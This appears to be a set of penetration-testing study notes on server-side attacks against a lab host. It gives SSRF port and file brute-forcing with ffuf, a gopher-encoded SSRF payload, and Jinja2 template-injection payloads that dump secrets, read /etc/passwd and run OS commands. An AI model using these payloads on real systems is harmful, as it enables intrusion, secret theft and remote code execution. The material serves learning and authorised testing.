 # SS Attacks

Server-Side Request Forgery (SSRF)
Server-Side Template Injection (SSTI)
Server-Side Includes (SSI) Injection
eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection

## SSRF

SSR is when a web application calls another web server, we can try to identify the request by using out ip and create an HTTP server. and then brute force incoming localhost ports wiht in the server.

```bash
seq 1 10000 > ports.txt
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

We can try LFI 

```bash
file:///etc/passwd
```

or we can try to brute foce internal files within the app
```bash
 ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```


### The gopher Protocol

SSRF is restricted to GET requests, what if we have a POST ? 

let's assume with our brute force we found /admin.php and it takes a POST request

Instead, we can use the gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.

The normal request will be as follow:

    POST /admin.php HTTP/1.1
    Host: dateserver.htb
    Content-Length: 13
    Content-Type: application/x-www-form-urlencoded

    adminpw=admin

the gopher request will be as follow:

    gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin

and the payload will be, the data server is the payload will be sending to the backend.

    POST /index.php HTTP/1.1
    Host: 172.17.0.2
    Content-Length: 265
    Content-Type: application/x-www-form-urlencoded

    dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01

This github code, generates gopher payloads:

https://github.com/tarunkant/Gopherus

Likewise for all other protocols : REDIS, SMTP ...

## SSTI

As the name suggests, Server-side Template Injection (SSTI) occurs when an attacker can inject templating code into a template that is later rendered by the server. If an attacker injects malicious code, the server potentially executes the code during the rendering process, enabling an attacker to take over the server completely.

![detect_ssti](img/map_ssti.png)

to detect it we inject one of the following char `${{<%[%'"}}%\.`

### Exploiting JINJA2

for information disclosure: 

```python
{{ config.items() }}
```

Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. We can use the following SSTI payload to dump all available built-in functions:

```python
{{ self.__init__.__globals__.__builtins__ }}
```
We can use this to have an LFI or RCE.

```python
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

NO need to write, CF payloadallthings

a handy tool to test for ssti :

https://github.com/vladko312/SSTImap
## SSI

Server-Side Includes (SSI) is a technology web applications use to create dynamic content on HTML pages. SSI is supported by many popular web servers such as Apache and IIS. The use of SSI can often be inferred from the file extension. Typical file extensions include .shtml, .shtm, and .stm. However, web servers can be configured to support SSI directives in arbitrary file extensions. As such, we cannot conclusively conclude whether SSI is used only from the file extension.
